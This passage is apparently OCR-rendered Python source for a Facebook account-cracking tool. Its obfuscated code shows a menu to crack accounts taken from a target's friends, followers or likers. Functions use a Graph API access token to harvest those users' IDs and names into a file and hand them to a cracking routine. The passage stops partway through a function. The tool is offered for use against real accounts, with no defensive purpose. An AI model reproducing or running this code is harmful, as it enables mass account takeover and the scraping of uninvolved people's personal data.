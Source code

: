 _ip_headers_ = {             "Referer":"http://ip-api.com/",             "Content-Type":"application/json; charset=utf-8",             "User-Agent":"Mozilla/5.0 (Linux; Android 10; Mi 9T Pro Build/QKQ1.190825.002; wv) AppleWebKit/537.36 (KHTML, like Gecko) Version/4.0 Chrome/88.0.4324.181 Mobile Safari/537.36[FBAN/EMA;FBLC/it_IT;FBAV/239.0.0.10.109;]"             }         _ip_req_ = _req_get_(_ip_url_,headers=_ip_headers_).json()         _ip_dev_ = _ip_req_["query"]     except:         _ip_dev_ = " "     _ahmar_cici_('%s[%s•%s] %sWelcome %s%s'%(_U_,_P_,_U_,_P_,_U_,_nama_dev_))     _ahmar_cici_('%s[%s•%s] %sID : %s'%(_U_,_P_,_U_,_P_,_id_dev_))     _ahmar_cici_('%s[%s•%s] %sIP : %s\n'%(_U_,_H_,_U_,_H_,_ip_dev_))     _ahmar_cici_('%s[%s1%s] %sCrack From Friends/Public ID '%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s2%s] %sCrack From Followrs ID'%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s3%s] %sCrack ID From Likers'%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s4%s] %sView Crack Results'%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s5%s] %sUser Agent'%(_U_,_P_,_U_,_P_))     _ahmar_cici_('%s[%s0%s] %sLog Out'%(_U_,_P_,_U_,_M_))     _ahmar_menu__cici_ahmar__ = _cici_ahmar_('%s[%s•%s] %sChooses : '%(_U_,_P_,_U_,_P_))     _ahmar_cici_('')     if _ahmar_menu__cici_ahmar__ in ['',' ']:         _ahmar_cici_('%s[%s!%s] %sWrong Input BRO'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_Ganteng_Banget_)     elif _ahmar_menu__cici_ahmar__ in ['1','01','a']:         _publik_dev_(_tok_dev_)     elif _ahmar_menu__cici_ahmar__ in ['2','02','b']:         _followers_dev_(_tok_dev_)     elif _ahmar_menu__cici_ahmar__ in ['3','03','c']:         _likers_dev_(_tok_dev_)     elif _ahmar_menu__cici_ahmar__ in ['4','04','d']:         _cek_result_dev_()     elif _ahmar_menu__cici_ahmar__ in ['5','05','e']:         _ugen_dev_(_Ahmar_Ganteng_Banget_)     elif _ahmar_menu__cici_ahmar__ in ['0','00','z']:         _ahmar_cici_('%s[%s•%s] %sSee you later %s%s %s!'%(_U_,_P_,_U_,_P_,_U_,_nama_dev_,_P_))         _bersih_()         time.sleep(2)         _login_dev_(_Ahmar_Ganteng_Banget_)     else:         _ahmar_cici_('%s[%s!%s] %sWrong input Bro'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_Ganteng_Banget_)  ### Dump ID Publik def _publik_dev_(_tok_dev_):     _Ahmar_jan_Cici_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__Forever__'     _ahmar_cici_('%s[%s•%s] %sType (Me) Clone your Login ID'%(_U_,_P_,_U_,_P_))     _target_dev_ = _cici_ahmar_('%s[%s•%s] %sINPUT TARGET ID : %s'%(_U_,_P_,_U_,_P_,_U_))     try:         _req_tar_ = _req_get_("https://graph.facebook.com/%s?access_token=%s"%(_target_dev_,_tok_dev_))         _jso_tar_ = _js_lo_(_req_tar_.text)         _name_    = _jso_tar_['name']         _ahmar_cici_('%s[%s•%s] %sTarger Name: %s%s'%(_U_,_P_,_U_,_P_,_U_,_name_))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid / ID Not Found'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     try:         _req_fl_ = _req_get_("https://graph.facebook.com/%s/friends?limit=1000000&amp;access_token=%s"%(_target_dev_,_tok_dev_))         _lo_dev_ = _js_lo_(_req_fl_.text)         _jso_file_ = (_jso_tar_["first_name"]+".json").replace(" ","_")         _jso_exec_ = _ahmar_ahmar_(_jso_file_,"w")         for _Ahmar_Cici_Forever_ in _lo_dev_["data"]:             try:                 _id_tampung_.append(_Ahmar_Cici_Forever_["id"]+"•"+_Ahmar_Cici_Forever_["name"])                 _jso_exec_.write(_Ahmar_Cici_Forever_["id"]+"•"+_Ahmar_Cici_Forever_["name"]+"\n")             except:continue         _jso_exec_.close()         _ahmar_cici_('%s[%s•%s] %sTotal ID : %s%s'%(_U_,_P_,_U_,_P_,_U_,len(_id_tampung_)))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid /ID Not Found'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     return _crack_dev_(_jso_file_)  ### Dump ID Pengikut def _followers_dev_(_tok_dev_):     _Ahmar_jan_Cici_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__Forever__'     _ahmar_cici_('%s[%s•%s] %sTpye /Me/ Clone Your Login ID'%(_U_,_P_,_U_,_P_))     _target_dev_ = _cici_ahmar_('%s[%s•%s] %sPast Target ID : %s'%(_U_,_P_,_U_,_P_,_U_))     try:         _req_tar_ = _req_get_("https://graph.facebook.com/%s?access_token=%s"%(_target_dev_,_tok_dev_))         _jso_tar_ = _js_lo_(_req_tar_.text)         _name_    = _jso_tar_['name']         _ahmar_cici_('%s[%s•%s] %sTarget Name : %s%s'%(_U_,_P_,_U_,_P_,_U_,_name_))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid /Targe not public'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     try:         _req_fl_ = _req_get_("https://graph.facebook.com/%s/subscribers?limit=1000000&amp;access_token=%s"%(_target_dev_,_tok_dev_))         _lo_dev_ = _js_lo_(_req_fl_.text)         _jso_file_ = (_jso_tar_["first_name"]+".json").replace(" ","_")         _jso_exec_ = _ahmar_ahmar_(_jso_file_,"w")         for _Ahmar_Cici_Forever_ in _lo_dev_["data"]:             try:                 _id_tampung_.append(_Ahmar_Cici_Forever_["id"]+"•"+_Ahmar_Cici_Forever_["name"])                 _jso_exec_.write(_Ahmar_Cici_Forever_["id"]+"•"+_Ahmar_Cici_Forever_["name"]+"\n")             except:continue         _jso_exec_.close()         _ahmar_cici_('%s[%s•%s] %sTotal ID : %s%s'%(_U_,_P_,_U_,_P_,_U_,len(_id_tampung_)))     except:         _ahmar_cici_('%s[%s!%s] %sToken Invalid / Target Not public'%(_M_,_P_,_M_,_P_))         time.sleep(2)         _menu_dev_(_Ahmar_jan_Cici_)     return _crack_dev_(_jso_file_)  ### Dump ID Likers def _likers_dev_(_tok_dev_):     _Ahmar_jan_Cici_ = '__My_Love__'+_oscylopsce_+_escylipsce_+_ascylapsci_+'__Forever__'     _ahmar_cici_('%s[%s•%s] %sTpye /Me/ Clone Your Login ID'%(_U_,_P_,_U_,_P_))     _target_dev_ = _cici_ahmar_('%s[%s•%s] %sPAST TARGET ID : %s'%(_U_,_P_,_U_,_P_,_U_))     try:         _req_tar_ =